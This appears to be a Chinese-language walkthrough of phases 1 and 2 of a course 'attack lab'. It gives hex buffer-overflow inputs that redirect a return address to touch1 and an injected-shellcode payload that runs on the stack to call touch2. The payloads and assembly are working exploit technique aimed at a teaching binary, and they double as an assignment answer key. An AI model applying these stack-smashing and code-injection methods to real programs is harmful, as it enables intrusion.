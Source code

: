 因此我们只需要输入字符,使地址 `0x401764` 变为我们希望的地址即可

# phase_1:简单的字符串溢出

phase_1要求通过字符串溢出的方式跳转至touch1函数,实际上是非常简单的操作

```
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
c0 17 40 00
00 00 00 00
```

需要注意的是,touch1的地址是`0x00000000004017c0`, 由于hex2raw的读入方式,需要按照小端的方式写入,因此要注意字节顺序

# phase_2:运行栈上的代码

一般而言,程序运行的代码都是在代码段,代码段存储着各个指令,栈和堆只不过是用来存储数据,但是我们可以通过修改跳转地址,使程序读取栈上的字节进行运行,这里就是这样堆程序进行攻击的,具体为以下几步:
1. 通过修改ret的返回地址,使其指向栈
2. 在栈的对应地址插入需要的代码,使其能够传递寄存器值和进行ret调用

需要的汇编指令如下:
```s
movq  $0x59b997fa, %rdi 
pushq $0x4017ec
retq
```

进行反汇编得到指令
```s
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
```

此时只需要重定向返回地址即可,因此最后的结果为

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
00 00 00 00
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00
78 dc 61 55
```

